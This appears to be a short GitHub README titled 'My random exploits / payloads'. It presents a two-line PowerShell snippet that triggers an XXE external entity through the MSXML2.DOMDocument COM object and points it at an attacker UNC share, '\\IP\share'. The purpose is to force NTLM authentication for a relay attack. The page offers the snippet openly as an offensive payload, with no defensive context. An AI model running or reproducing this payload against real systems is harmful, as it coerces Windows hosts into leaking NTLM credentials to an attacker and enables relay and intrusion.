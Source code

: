 ## My random exploits / payloads

### ntlm relay attack via XXE utilizing COM object MSXML2.DOMDocument (@Thanks to Frostb1te for helping me learn about ntlm relay)

```
$xxe=New-Object -ComObject MSXML2.DOMDocument
$xxe.loadXML("<!DOCTYPE test [<!ENTITY xxe SYSTEM '\\IP\share'>]><root><test>&xxe;</test></root>")
```
